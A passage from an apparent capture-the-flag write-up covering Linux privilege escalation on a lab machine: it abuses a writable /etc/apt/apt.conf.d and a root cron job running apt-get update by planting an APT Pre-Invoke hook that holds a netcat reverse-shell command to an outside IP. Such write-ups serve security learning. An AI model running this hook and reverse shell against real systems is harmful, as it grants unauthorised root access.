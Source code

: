 ## Priviledge escalation

After running linpeas.sh, we find out that we can edit files in the directory `etc/apt/apt.conf.d`. With pspy we also find out that there's a root cronjob running `sudo apt-get update`. We can add a fake package that contains another reverse shell which will get triggered when the cronjob runs (read [this article](https://www.hackingarticles.in/linux-for-pentester-apt-privilege-escalation) for more info)

```
john@writer:~$ cd /etc/apt/apt.conf.d

john@writer:/etc/apt/apt.conf.d$ echo 'apt::Update::Pre-Invoke {“rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.226 1234 >/tmp/f”};' > pwn
```
